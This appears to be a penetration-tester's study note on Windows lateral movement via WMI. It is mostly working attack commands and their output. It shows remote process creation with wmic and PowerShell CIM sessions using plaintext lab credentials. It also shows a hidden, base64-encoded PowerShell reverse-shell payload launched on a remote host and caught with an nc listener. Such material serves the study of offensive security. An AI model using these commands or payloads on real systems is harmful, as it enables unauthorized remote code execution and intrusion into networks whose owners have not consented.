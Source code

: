 # Windows

## WMI

WMI is capable of creating processes via the _Create_ method from the _Win32\_Process_ class. It communicates through [_Remote Procedure Calls_](https://learn.microsoft.com/en-us/windows/win32/rpc/rpc-start-page) (RPC) over port 135 for remote access and uses a higher-range port (19152-65535) for session data.

### Prerequisities

* Credentials of a member of the _Administrators_ local group
* Avoid UAC Remote Restrictions for non-domain joined machine (OK for us if user is a domain user)

### Using wmic

```
wmic /node:192.168.50.73 /user:jen /password:Nexus123! process call create "calc"

Executing (Win32_Process)->Create()
Method execution successful.
Out Parameters:
instance of __PARAMETERS
{
        ProcessId = 752;
        ReturnValue = 0;
};
```

752 -> PID

0 -> Creation of "calc" process is successfull

### Same WMI leverage using Powershell&#x20;

```
$options = New-CimSessionOption -Protocol DCOM
$session = New-Cimsession -ComputerName 192.168.50.73 -Credential $credential -SessionOption $Options 
$command = 'calc';
$username = 'jen';

Invoke-CimMethod -CimSession $Session -ClassName Win32_Process -MethodName Create -Arguments @{CommandLine =$Command};

ProcessId ReturnValue PSComputerName
--------- ----------- --------------
     3712           0 192.168.50.73
```

### Using Reverse Shell

1. Generate powershell payload using reverse shelle generator ($command variable in the following)
2. Send the payload

```
$username = 'jen';
$password = 'Nexus123!';
$secureString = ConvertTo-SecureString $password -AsPlaintext -Force;
$credential = New-Object System.Management.Automation.PSCredential $username, $secureString;
$Options = New-CimSessionOption -Protocol DCOM
$Session = New-Cimsession -ComputerName 192.168.50.73 -Credential $credential -SessionOption $Options
$Command = 'powershell -nop -w hidden -e JABjAGwAaQBlAG4AdAAgAD0AIABOAGUAdwAtAE8AYgBqAGUAYwB0ACAAUwB5AHMAdABlAG0ALgBOAGUAdAAuAFMAbwBjAGsAZQB0AHMALgBUAEMAUABDAGwAaQBlAG4AdAAoACIAMQA5AD...
HUAcwBoACgAKQB9ADsAJABjAGwAaQBlAG4AdAAuAEMAbABvAHMAZQAoACkA';
Invoke-CimMethod -CimSession $Session -ClassName Win32_Process -MethodName Create -Arguments @{CommandLine =$Command};

```

3. Get reverse shell

```
nc -lnvp 443
listening on [any] 443 ...
connect to [192.168.118.2] from (UNKNOWN) [192.168.50.73] 49855

PS C:\windows\system32\driverstore\filerepository\ntprint.inf_amd64_075615bee6f80a8d\amd64> hostname
FILES04
```

